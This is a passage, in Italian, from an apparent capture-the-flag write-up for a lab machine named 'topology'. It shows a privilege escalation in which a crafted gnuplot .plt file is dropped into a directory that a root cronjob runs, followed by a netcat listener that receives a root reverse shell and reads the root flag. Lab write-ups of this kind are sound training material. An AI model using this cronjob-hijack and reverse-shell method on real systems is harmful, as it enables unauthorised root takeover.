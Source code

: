 spostiamo il file `.plt` all'interno di `/opt/gnuplot`

```shell-session
vdaisley@topology:/tmp$ mv pwnd.plt /opt/gnuplot/
```

e non ci resta che aspettare che il crojob si attivi per ottenere la nostra shell con la relativa root_flag
```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.217] 46884
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
90c21d7a3ecb0448f06507f42f05ecd8
#
```